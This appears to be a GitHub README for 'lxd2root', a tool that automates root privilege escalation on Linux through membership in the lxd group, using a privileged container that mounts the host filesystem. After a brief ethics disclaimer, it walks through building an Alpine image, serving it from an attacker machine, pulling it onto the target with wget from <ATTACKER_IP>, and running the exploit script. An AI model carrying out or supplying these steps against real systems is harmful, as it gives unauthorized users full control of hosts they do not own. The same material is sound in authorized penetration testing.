 # lxd2root — LXD/LXC Privilege Escalation Helper

### Automates the classic “in-lxd-group ⇒ root” escalation using a privileged LXD container to mount the host filesystem and chroot.

## ⚠️ Legal / Ethics

This tool is for educational and authorized security testing only. Use it only on machines you own or have written permission to test. The author(s) are not responsible for misuse or damage.
## What it does (TL;DR)

If your user is a member of the lxd group (or can add themselves to it), you can create a privileged LXD container, attach the host root (/) into the container, and then chroot into the mounted host filesystem as root.

This script automates:

Importing a minimal Linux image (Alpine by default) into LXD.

Ensuring an LXD storage pool/profile exists (creating one if needed).

Launching a privileged container.

Attaching the host root (/) into the container at /mnt/root.

Dropping you into a chroot on the host filesystem as root.

# usage
## 📦 Preparing the Alpine Image

Before you can use the exploit, you’ll need an Alpine Linux container image (.tar.gz) that LXD can import.

### 1. Build an Alpine image

Clone the lxd-alpine-builder repository and build an image:
```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```
If the build completes successfully, you’ll get a file like:
`
alpine-v3.13-x86_64-20210218_0139.tar.gz
`
This is the image your exploit script needs.
### 2. Transfer the image to the target

You need to move that .tar.gz file onto the target machine.
One quick way is to host it with a Python HTTP server on your attacker machine:
```
cd lxd-alpine-builder
python3 -m http.server
```
Then, from the target machine, download the image with:
```
wget http://<ATTACKER_IP>:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```
Replace <ATTACKER_IP> with the IP address of your attacker machine.
### 3. Run the exploit

Once the image is on the target, simply run the script:
```
bash lxd2root.sh
```
If successful, you’ll be dropped into the host filesystem as root.
